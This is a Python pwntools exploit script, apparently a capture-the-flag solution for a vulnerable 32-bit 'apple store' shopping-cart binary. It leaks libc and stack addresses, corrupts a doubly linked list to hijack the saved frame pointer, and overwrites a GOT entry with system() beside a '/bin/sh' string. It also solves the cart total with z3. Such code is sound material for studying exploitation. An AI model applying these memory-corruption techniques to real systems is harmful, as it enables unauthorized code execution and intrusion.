 ```python
    io.recvuntil(b"Let me check your cart. ok? (y/n) > ")
    io.sendline(b"y")

def leak_libc(io,_bin):
    content = b"y\x00" + p32(_bin.got["puts"]) # change name to GOT['puts']
    content+= p32(114514) + p32(0) 
    cart(io,content)
    s = io.recvuntil(b"114514").split(b"\n")[-1].split(b': ')[1]
    return u32(s[:4])

def leak_stack(io):
    for i in range(26):
        delete(io, b"1\x00")
    first_cart_ptr = 0x804B070
    content = b"1\x00"
    content+= p32(first_cart_ptr)   # name
    content+= p32(114514)           # price
    content+= p32(0)                # next
    content+= p32(0)                # prev
    s = delete(io,content)
    assert s.startswith(b"Remove 1:")
    return u32(s.strip(b"Remove 1:")[:4])

def hijack_ebp(io,ori_ebp):
    content = b"1\00"
    got_start = 0x804B032
    content+= p32(got_start)        # name
    content+= p32(0)                # price
    content+= p32(ori_ebp-0xc)      # next
    content+= p32(got_start+0x22)   # prev
    delete(io, content)

def rewrite_got(io,system_addr):
    content = b"/bin/sh\00".ljust(0x40-0x32,b"\x00")
    content+= p32(system_addr)
    # delete(io, content)
    # choice(io,3)
    io.recvuntil(b"> ")
    io.send(content)

def demo_stack_rewrite(io):
    content = b"y\x00" + p32(0x080490A4) # change name to "Times Up!"
    content += p32(114514) + p32(0)
    cart(io,content)

def _solve():
    target_total = 7174
    prices = [199,299,499,399,199]
    cnts = Ints('x0 x1 x2 x3 x4')
    expr = sum(list(map(lambda x,y:x*y, prices,cnts)))
    s = Solver()
    s.add(expr == target_total)
    for sym in cnts:
        s.add(sym > 0)
    s.check()
    sol = s.model()
    print(sol)
    assert sum(map(lambda x,y: sol[x].as_long()*y, cnts, prices))==target_total, f"{sum(map(lambda x,y: sol[x].as_long()*y, cnts, prices))}"
    return sol,cnts

DEBUG = False

```